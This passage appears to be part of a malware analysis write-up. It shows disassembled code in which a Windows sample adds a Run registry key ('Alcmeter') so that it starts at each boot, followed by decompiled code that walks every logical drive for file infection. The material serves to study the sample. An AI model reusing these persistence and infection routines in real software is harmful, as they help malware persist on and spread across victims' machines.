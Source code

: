 It will add a registry key to start itself upon each startup.

```
push myfile-ok.405950                   ; "C:\\Users\\Admin\\AppData\\Local\\Temp\\QLUm8OR6vUIE1wP.exe"
push myfile-ok.4043D4                   ; "Alcmeter"
push myfile-ok.4043A6                   ; "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run"
push 80000002                           ; 
call myfile-ok.402422                   ;

push ebp
mov ebp,esp
add esp,FFFFFFF8
lea eax,dword ptr ss:[ebp-4]
push eax
lea eax,dword ptr ss:[ebp-8]
push eax
push 0
push 2001F
push 0
push myfile-ok.404379
push 0
push dword ptr ss:[ebp+C]
push dword ptr ss:[ebp+8]
call <JMP.&RegCreateKeyExA>
push dword ptr ss:[ebp+14]
call <JMP.&lstrlen>
push eax
push dword ptr ss:[ebp+14]
push 1
push 0
push dword ptr ss:[ebp+10]
push dword ptr ss:[ebp-8]
call <JMP.&RegSetValueExA>
push dword ptr ss:[ebp-8]
call <JMP.&RegCloseKey>
```


## File infection

The malware will search all logical drives from Z:\ to A:\

```
LogicalDrives = GetLogicalDrives(); // Retrieve the list of available logical drives

v3 = 25; // Initialize v3 to 25 (corresponding to letter 'Z' in ASCII)
do {
    // Check if the bit corresponding to the current drive letter is set
    if ((LogicalDrives & (1 << v3)) != 0) {
        BYTE1(dword_40444F) = v3 + 65; // Convert the drive index to ASCII drive letter (A-Z)
        *(int *)((char *)&dword_40444F + 2) = 774528058; // An unknown operation with a constant value
        byte_404455 = 42; // Assign a value to byte_404455
        byte_404456 = 0; // Assign a value to byte_404456
        v7 = LogicalDrives; // Save the value of LogicalDrives
        sub_4013A8(v3); // Call a function sub_4013A8 with v3 as argument
        v3 = v6; // Update v3 with the value returned by sub_4013A8
        LogicalDrives = v7; // Restore the value of LogicalDrives
    }
} while (--v3 >= 0); // Loop until v3 reaches 0
```

